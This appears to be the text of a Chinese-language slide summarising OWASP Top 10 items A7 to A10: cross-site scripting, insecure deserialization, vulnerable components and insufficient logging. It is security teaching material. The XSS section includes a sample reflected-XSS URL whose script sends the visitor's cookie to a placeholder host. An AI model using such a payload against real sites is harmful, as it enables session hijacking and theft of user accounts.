

OWASP
Open Web Application Security Project
A7 XSS (Cross-Site Scripting) 跨站攻擊
當網站沒有做好的驗證，就可以讓駭客輕易輸入惡意程式碼在網站上
-Reflected:利用網址輸入欄來執行惡意程式碼，因為輸入當下馬上被執行所以稱為 Reflected XXS
e.g.http://www.shop.com/search?query=<script>document.location='http://xx?c='+document.cookie;</script>
-Persistent/Stored XSS:同樣也是網站埋地雷，當使用者連到該網站便會遭受攻擊。一段惡意程式碼然後送出後存到資料庫中
-DOM Based XSS: DOM Based 惡意程式碼沒有到 server 端被執行而是直接在 client 端就被執行

A8 Insecure Deserialization 不安全的反序列化漏洞
不安全的反序列化漏洞主要是鎖定 Java、PHP 或 Node.js 等常見的平臺
A9 Using Components with Known Vulnerabilities 使用已有漏洞的元件
如果有一個容易受到攻擊的元件被駭客利用，就會導致使用這些元件的系統也有可能被駭客侵入。
A10 Insufficient Logging & Monitoring 紀錄與監控不足風險
大部分的攻擊都是有跡可循的，例如來自特定來源的失敗登錄嘗試太多或在沒有預期的情況下出現高峰流量等等。不要等發生事情才來處理，應該要平常就做好監控，系統出現可疑行為就要趕快處理